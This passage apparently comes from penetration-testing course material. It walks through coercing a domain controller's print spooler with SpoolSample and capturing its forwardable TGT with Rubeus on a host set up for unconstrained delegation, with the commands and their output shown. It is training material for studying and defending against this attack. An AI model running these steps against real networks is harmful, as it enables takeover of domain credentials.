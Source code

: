 > Listing 22 - Enumerating print spooler access

The output reveals that the print spooler service is running and accessible.

Recall that this access is by design and _RpcRemoteFindFirstPrinterChangeNotification_ allows us to simulate a print client and subscribe to notifications of changes on the print server. These notifications are sent over the network by the print spooler service via RPC over a named pipe.

When the "target" spooler accesses the named pipe on the "attacking" machine, it will present a forwardable TGT along with the TGS if the "attacking" machine is configured with unconstrained delegation.

As we did for the local privilege escalation, we'll call the _RpcOpenPrinter_ and _RpcRemoteFindFirstPrinterChangeNotification_ APIs through SpoolSample to facilitate the attack. Once the authentication has taken place, we'll check for tickets in memory originating from the domain controller machine account.

A compiled version of SpoolSample is located in the C:\Tools folder of appsrv01.

We are missing one final item before we launch the attack. In the last section, we used Mimikatz to find and extract the forwardable TGT, but the sheer number of returned TGTs and TGSs makes monitoring difficult. In addition, we had to write the TGT to disk to reuse it.

To solve these challenges, @harmj0y developed the _Rubeus_[1](https://portal.offsec.com/courses/pen-300-9502/learning/active-directory-exploitation-14684/active-directory-exploitation-14915#fn-local_id_636-1) C# application, which has been copied to the C:\Tools folder of appsrv01.

Let's launch Rubeus from an administrative command prompt in monitor mode, specify a refresh interval of 5 seconds with the /interval option, and filter on the domain controller machine account with the /filteruser option:

```
C:\Tools> Rubeus.exe monitor /interval:5 /filteruser:CDC01$

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: TGT Monitoring
[*] Target user     : CDC01$
[*] Monitoring every 5 seconds for new TGTs
```

> Listing 23 - Monitoring TGT from CDC01$ with Rubeus

With Rubeus monitoring for TGTs originating from the domain controller machine account, we'll open a second command prompt and trigger the print spooler change notification with SpoolSample.exe by specifying the target machine and capture server.

```
C:\Tools> SpoolSample.exe CDC01 APPSRV01
[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
TargetServer: \\CDC01, CaptureServer: \\APPSRV01
Attempted printer notification and received an invalid handle. The coerced authentication probably worked!
```
